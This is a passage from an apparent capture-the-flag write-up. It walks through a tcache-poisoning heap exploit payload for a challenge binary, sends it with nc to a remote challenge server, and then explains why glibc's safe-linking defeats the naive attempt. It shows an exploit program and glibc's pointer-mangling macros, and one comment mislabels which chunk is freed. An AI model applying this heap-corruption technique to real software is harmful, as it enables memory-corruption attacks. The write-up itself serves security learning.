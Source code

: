 Translating this to our `mainframe` program code (naming collision: chunk here is the chunk array used in mainframe, not the allocated chunk or entry in tcache):

```bash
A8                    # allocate 8 bytes to chunk[0]
A8                    # allocate 8 bytes to chunk[1]
D1                    # delete chunk[1]
D0                    # delete chunk[2]

# at this point our tcache looks like this
# tcache -> D0 -> D1

F0b081555555550000    # fill chunk[0] with address of 'check_var'

# at this point our tcache looks like this
# tcache -> D0 -> check_var

A8                    # alloc 8 bytes to chunk[2]
A8                    # alloc 8 bytes to chunk[3], alloc will return the address pointing to 'check_var' now
F3666c6167            # write 'flag' to chunk[3]
```

Why do we write `flag` to chunk[3]? Since `delete` is not setting chunk `ptr` to `NULL` the first two chunks are still considered allocated, so the next two allocations are going to chunk[2] and chunk[3].

Well, perfection! Now we need to translate this into punchcards. I wrote a small [`python script`](gen.py) to automate this. Since doing this manually,is a laborious process. Lets try it:

```bash
$ python gen.py A8A8D1D0F0b081555555550000A8A8F3666c6167 | nc 139.144.30.173 9999
Overwrite the value at 0x5555555581b0 so it's 'flag'
Your super secret xor key is 0x555555559
Enter your program:
malloc(): unaligned tcache chunk detected
```

Didn't work.. But why? Lets review the other hint given: `It's using Ubuntu GLIBC 2.35-0ubuntu3.1`. This version of glibc uses [`safe-linking`](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/).

Ok, we should have cared earlier for the security mechanisms in place for `tcache`. If we look closely there is a `REVEAL_PTR` macro used to fetch the pointer to the next linked element. The idea here is, that not the raw pointers are stored but some sort of `signed` pointer that avoids tampering. We can see how the macro is defined here:

```c
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```
